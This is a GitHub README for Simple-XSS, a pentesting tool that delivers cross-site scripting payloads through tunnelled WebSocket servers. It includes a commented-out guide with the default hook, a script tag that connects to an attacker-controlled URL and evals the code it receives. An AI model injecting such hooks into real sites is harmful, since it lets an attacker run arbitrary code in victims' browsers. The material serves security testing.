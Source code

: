 # Simple-XSS

<p align="center">
  <img src="resources/images/logo.png"  alt="Simple-XSS logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting.

Problems solved by Simple-XSS:

- [x] Easy creatable payloads & hooks
- [x] Support of several payload delivering protocols
- [x] Support of several tunneling services (to deliver payload even without white IP)

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Vocabulary

**Hook** - snippet of JS code designed to be injected via XSS on the client side.

**Payload** - a program that will be launched remotely in the client’s browser.

## Usage

## Status

**V0.3 - indev**

### GUI-Guide

[//]: # (> Use `--help` argument to get help.)

[//]: # (![commandline help]&#40;docs/help.png&#41;)

[//]: # ()

[//]: # (### GUI-Guide)

[//]: # ()

[//]: # (Firstly, choose the hook. [Default hook]&#40;hooks/default&#41; is the simplest hook, it is only suitable for forms without XSS)

[//]: # (protection:)

[//]: # ()

[//]: # (![step 1]&#40;docs/step_1.png&#41;)

[//]: # ()

[//]: # (Then, choose the payload. [Hello world payload]&#40;payloads/hello_world&#41; is an example payload, it just alerts "Hello,)

[//]: # (World!":)

[//]: # ()

[//]: # (![step 2]&#40;docs/step_2.png&#41;)

[//]: # ()

[//]: # (Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:)

[//]: # ()

[//]: # (1&#41; use one of the suggested tunneling apps &#40;now it's only [ngrok]&#40;https://ngrok.com/&#41;&#41;)

[//]: # (2&#41; tunnel ports yourself and pass the public URL of the HTTP tunnel to the program)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_1.png&#41;)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_2.png&#41;)

[//]: # ()

[//]: # (Finally, you can run the process!)

[//]: # ()

[//]: # (![step 4]&#40;docs/step_4.png&#41;)

[//]: # ()

[//]: # (Now you can copy the hook and start hunting ;D)

[//]: # ()

[//]: # (![step 5]&#40;docs/step_5.png&#41;)

[//]: # ()

[//]: # (To demonstrate the possibilities, we can use site [xss-game.appspot.com]&#40;https://xss-game.appspot.com/&#41;.)

[//]: # (Enter the hook into search form:)

[//]: # ()

[//]: # (![step 6]&#40;docs/step_6.png&#41;)

[//]: # ()

[//]: # (Press "Search". As you can see, we have the alert dialog!)

[//]: # ()

[//]: # (![step 7]&#40;docs/step_7.png&#41;)

[//]: # ()

[//]: # (Also, we have "Hello, World!" in our console:)

[//]: # (![step 8]&#40;docs/step_8.png&#41;)

[//]: # ()

[//]: # (### Hook)

[//]: # ()

[//]: # (> _Hooks folder: [hooks]&#40;hooks&#41;_)

[//]: # ()

[//]: # (**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:)

[//]: # ()

[//]: # (```html)

[//]: # ()

[//]: # (<script>c = new WebSocket&#40;'{{environment.public_url}}'&#41;;)

[//]: # (c.onmessage = &#40;e&#41; => eval&#40;e.data&#41;;</script>)

[//]: # (```)

[//]: # ()

[//]: # (**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about)

[//]: # (this below._)

[//]: # ()

[//]: # (This is a [default]&#40;hooks/default&#41; hook. When it's embedded in the vulnerable form, it downloads the JS)

[//]: # (code &#40;[payload]&#40;#payload&#41;&#41; via)

[//]: # (WebSockets)

[//]: # (protocol from the server and)

[//]: # (executes it using [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Hook has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- hook_folder)

[//]: # (    |)

[//]: # (    +-- hook.html)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (```)

[//]: # ()

[//]: # (**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about hook such as name, description, author and version.)

[//]: # ()

[//]: # (### Payload)

[//]: # ()

[//]: # (> _Payloads folder: [payloads]&#40;payloads&#41;_)

[//]: # ()

[//]: # (**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed)

[//]: # (with [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Payload has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- payload_folder)

[//]: # (    |)

[//]: # (    +-- payload.js)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (    |)

[//]: # (    +-- init.py)

[//]: # (```)

[//]: # ()

[//]: # (**payload.js** - main file, contains arbitrary JS code.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about payload such as name, description, author and version.)

[//]: # ()

[//]: # (**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload)

[//]: # (&#40;payload.js&#41; via WebSockets protocol.)

[//]: # ()

[//]: # (### Templating)

[//]: # ()

[//]: # (**Built-in objects** is an objects passed into hook & payload main files)

[//]: # (using [Jinja]&#40;https://jinja.palletsprojects.com/&#41;)

[//]: # (templating engine. It contains additional information that may be needed when loading a hook or payload.)

[//]: # ()

[//]: # (#### Environment)

[//]: # ()

[//]: # (- **public_url** - public address of WebSocket server)

[//]: # ()

[//]: # (#### Metadata)

[//]: # ()

[//]: # (**package** - hook or payload)

[//]: # ()

[//]: # (- **name** - name of package)

[//]: # (- **author** - package author)

[//]: # (- **version** - version of package)

[//]: # (- **description** - package description)

[//]: # ()

[//]: # (If you need to use some variable, just use such construction: {{object.variable}}.)

[//]: # (For example:)

[//]: # ()

[//]: # (```)

[//]: # (alert&#40;'{{metadata.name}} - V{{metadata.version}}'&#41;)

[//]: # (```)

[//]: # ()

[//]: # (The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.)

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![img.png](resources/images/v0.3.png)

### WEB

### Command-Line

## Warning

In favor of ease of use and expanded capabilities, we had to sacrifice backward compatibility between versions 0.2 and
0.3. The features of the previous version are retained and expanded, but older versions of hook & payload will not work.

## Installation

**Note:** _make sure you have installed [Python 3.11](https://www.python.org/downloads/release/python-3115/)_

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install the requirements:

**For Window:**

```commandline
cd Simple-XSS
pip install -r requirements/windows.txt
```

**For Linux:**

```commandline
cd Simple-XSS
pip install -r  requirements/linux.txt
```

And finally you can launch it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
